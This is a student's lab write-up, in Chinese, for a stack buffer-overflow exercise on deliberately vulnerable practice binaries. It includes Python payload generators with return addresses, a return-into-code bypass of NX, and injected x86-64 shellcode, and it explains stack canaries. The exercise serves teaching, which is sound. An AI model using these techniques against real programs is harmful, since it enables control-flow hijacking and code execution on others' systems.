

# 栈溢出攻击实验

## 题目解决思路

### Problem 1: 无保护栈溢出

- **分析**：  
  这道题没有启用任何防护机制。程序通过 `gets` 读取输入存到栈上缓冲区。由于缓冲区大小有限，输入过长会直接覆盖 saved rbp 和返回地址。通过分析汇编代码，可以发现有一个隐藏函数func1，它会执行打印目标字符串 "Yes!I like ICS!"。因此攻击的思路就是使输入覆盖掉缓冲区和saved rbp，然后填入func1的地址。

- **解决方案**：  
  计算缓冲区到返回地址的偏移（缓冲区大小8字节 + saved rbp 8 字节），然后用填充字节覆盖到返回地址位置，然后写入目标函数地址（是小端序）。生成输入的Python代码如下：

  ```python
padding = b"A" * 16
target_addr = b"\x16\x12\x40\x00\x00\x00\x00\x00"

payload = padding + target_addr

with open("ans1.txt", "wb") as f:
    f.write(payload)
  ```

- **结果**：  


### Problem 2: NX 保护下的 ROP

- **分析**：  
  本题启用了 NX（栈不可执行），意味着无法直接在栈上执行填入的代码。
  汇编代码中的main函数会读入最多0x100字节的输入存到栈缓冲区，然后调用func；func函数会分配0x20个字节的栈空间，然后用memcpy将栈缓冲区的前0x38字节复制到自己的缓冲区内；func2函数则会读入一个参数（在edi），若等于0x3f8就会输出我们想要的字符串。

- **解决方案**：  
  偏移计算：缓冲区起始 rbp-0x8，拷贝 0x38 字节，覆盖 saved rbp（偏移 0x10）后返回地址（偏移 0x18）。生成payload的Python 代码如下：

  ```python
  padding1 = b'A' * 8
  fake_rbp = b'B' * 8
  yes_branch_addr = struct.pack("<Q", 0x40124c)  # func2的"Yes" 分支地址
  remaining_padding = b'\x00' * (0x38 - 24)

  payload = padding1 + fake_rbp + yes_branch_addr + remaining_padding

  with open("ans2.txt", "wb") as f:
      f.write(payload)
  ```

- **结果**：  


### Problem 3: 栈上执行 shellcode

- **分析**：  
  本题无 NX/Canary，但 memcpy 只拷贝 0x40 字节。汇编代码中存在工具 gadget jmp_xs（地址 0x401334），其功能是加载全局 saved_rsp + 0x10（正好指向 memcpy 目标缓冲区起始，即栈上 shellcode 位置）并跳转执行。这道题允许在栈上注入 shellcode 并通过覆盖返回地址到 jmp_xs，实现栈上代码执行。目标是调用 func1（在地址 0x401216），传入 edi=0x72以打印 "Your lucky number is 114"。

- **解决方案**：  
  shellcode 设置 edi=0x72 并 call func1，长度控制在 0x20 字节内。偏移量：shellcode + padding 到 saved rbp（0x20），然后覆盖返回地址为 jmp_xs。Python 代码如下：

  ```python

  shellcode = (
      b'\xbf\x72\x00\x00\x00' +                      # mov edi, 0x72
      b'\x48\xb8\x16\x12\x40\x00\x00\x00\x00\x00' +  # mov rax, 0x401216
      b'\xff\xd0'                                    # call rax
  )

  padding = b'A' * (0x20 - len(shellcode))
  fake_rbp = b'B' * 8
  jmp_xs_addr = struct.pack("<Q", 0x401334)
  remaining_padding = b'\x00' * (0x40 - (len(shellcode) + len(padding) + 8 + 8))

  payload = shellcode + padding + fake_rbp + jmp_xs_addr + remaining_padding

  with open("ans3.txt", "wb") as f:
      f.write(payload)
  ```

- **结果**：  


### Problem 4: Canary 保护与逻辑后门

- **分析**：  
  本题启用了 Canary 保护机制。Canary（金丝雀）是一种防止缓冲区溢出的检测机制：函数开头时 prologue 从 %fs:0x28 读取一个随机值存入栈底（汇编代码：`mov %fs:0x28, %rax; mov %rax, -0x8(%rbp)`），结尾处epilogue 时检查该值是否被修改（汇编体现：`mov -0x8(%rbp), %rax; sub %fs:0x28, %rax; jne __stack_chk_fail`）。若值改变（比如因溢出而被覆盖），调用 __stack_chk_fail 终止程序。程序交互式读取多次输入，调用 func 处理 money 值。通过 GDB 调试发现，当输入 money = -1 时，func 内计数循环不执行，某个局部变量（rbp-0xc）保持 -1，满足隐藏条件（汇编中 `cmpl $0xffffffff, -0xc(%rbp)`），直接 call func1 打印通关信息并 exit，无需溢出。

- **解决方案**：  
  这道题无需构造 payload，只用通过正常输入即可触发逻辑漏洞。交互时在问 money 时输入 -1 即可通关。

- **结果**：  

## 思考与总结

通过本次实验，我深入理解了缓冲区溢出攻击的核心原理：函数调用栈帧布局（局部变量、saved rbp、返回地址），以及不同防护机制的绕过方式。Problem 1 展示了最基本的控制流劫持；Problem 2 体现了栈不可执行情况下，利用现有代码片段的必要性；Problem 3 通过 gadget 在栈上执行代；Problem 4 则强调 Canary 的检测机制（汇编中明确体现设置与检查），同时说明防护并非万能，逻辑漏洞（如后门条件）可被正常输入利用。

